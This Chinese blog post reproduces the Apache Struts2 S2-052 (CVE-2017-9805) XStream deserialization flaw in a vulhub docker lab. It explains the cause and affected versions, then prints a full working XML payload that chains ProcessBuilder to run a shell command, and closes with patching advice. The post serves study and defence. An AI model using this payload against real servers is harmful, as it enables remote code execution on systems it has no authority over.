



# Apache struts2 远程命令执行 _CVE-2017-9805(S2-052)漏洞复现 - 雨中落叶 - 博客园

> 原文：[`www.cnblogs.com/yuzly/p/11183855.html`](https://www.cnblogs.com/yuzly/p/11183855.html)

Apache struts2 远程命令执行 _CVE-2017-9805(S2-052)漏洞复现

**一、漏洞概述**

Apache Struts2 的 REST 插件存在远程代码执行的高危漏洞,Struts2 REST 插件的 XStream 插件的 XStream 组件存在反序列化漏洞,使用 XStream 组件对 XML 格式的数据包进行反序列化操作时,未对数据内容进行有效验证,存在安全隐患,可被远程攻击。

**二、漏洞原理**

Struts2-Rest-Plugin 是让 Struts2 能够实现 Restful API 的一个插件,其根据 Content-Type 或 URI 扩展名来判断用户传入的数据包类型,有如下映射表:

| 扩展名 | Content-Type | 解析方法 |
| xml | Application/xml | xstream |
| json | Application/json | Jsonlib 或 jackson |
| xhtml | Application/xhtml+xml | 无 |
| 无 | Application/x-www-form-urlencoded | 无 |
| 无 | Multipart/form-data | 无 |

Jsonlib 无法引入任意对象,而 xstream 在默认情况下是可以引入任意对象的(针对 1.5.x 以前的版本),方法就是直接通过 xml 的 tag 指定需要实例化的类名:

<classname></classname>

//或者

<paramname class="classname"></paramname>

所以,我们可以通过反序列化引入任意类造成远程命令执行漏洞,只需要找到一个在 Struts2 库中适用的 gedget。

**三、漏洞影响版本**

Struts 2.1.2 - Struts 2.3.33

Struts 2.5 - Struts 2.5.12

**四、漏洞环境搭建以及复现**

1、利用 docker 搭建 vulhub 漏洞环境

docker-compose up -d

　　

2、启动环境后,访问 http://172.17.0.1:8080/orders.xhtml,可以看到 showcase 页面。

　　

3、由于 rest-plugin 会根据 URI 扩展名或 Content-Type 来判断解析方法, 所以我们只需要修改 orders.xhtml 或修改 Content-Type 头为 application/xml,即可在 Body 中传递 XML 数据。

3.1 点击一个 edit 进行编译页面,burpsuit 抓包

　　

3.2 修改数据包,构造数据包

将 Content-Type:application/x-www-form-urlencoded 修改为:Content-Type:application/xml

Post 数据修改成:

```
<map>
<entry>
     <jdk.nashorn.internal.objects.NativeString>
       <flags>0</flags>
       <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
         <dataHandler>
           <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
             <is class="javax.crypto.CipherInputStream">
               <cipher class="javax.crypto.NullCipher">
                 <initialized>false</initialized>
                 <opmode>0</opmode>
                 <serviceIterator class="javax.imageio.spi.FilterIterator">
                   <iter class="javax.imageio.spi.FilterIterator">
                     <iter class="java.util.Collections$EmptyIterator"/>
                     <next class="java.lang.ProcessBuilder">
                       <command>
<string>touch</string>
<string>/tmp/test.txt</string>
                       </command>
                       <redirectErrorStream>false</redirectErrorStream>
                     </next>
                   </iter>
                   <filter class="javax.imageio.ImageIO$ContainsFilter">
                     <method>
                       <class>java.lang.ProcessBuilder</class>
                       <name>start</name>
                       <parameter-types/>
                     </method>
                     <name>foo</name>
                   </filter>
                   <next class="string">foo</next>
                 </serviceIterator>
                 <lock/>
               </cipher>
               <input class="java.lang.ProcessBuilder$NullInputStream"/>
               <ibuffer/>
               <done>false</done>
               <ostart>0</ostart>
               <ofinish>0</ofinish>
               <closed>false</closed>
             </is>
             <consumed>false</consumed>
           </dataSource>
           <transferFlavors/>
         </dataHandler>
         <dataLen>0</dataLen>
       </value>
     </jdk.nashorn.internal.objects.NativeString>
     <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
   </entry>
   <entry>
     <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
     <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
   </entry>
 </map>
```

　　

4、可以看到响应 500 状态码,不过还是成功了

　　

5、在目标执行 docker-compose exec struts2 ls /tmp/ 查看是否成功执行 touch 命令

　　

**五、漏洞防御**

1、 升级版本

2、 删除 Struts2 REST 插件,或仅限于服务器普通页面和 jsons:

<constant name=”struts.action.extension” value=”xhtml,json”/>

3、限制服务端扩展类型,删除 XML 支持。

---------------------------------------------------------------------------------------------------------------------

参考链接:[`github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md`](https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md)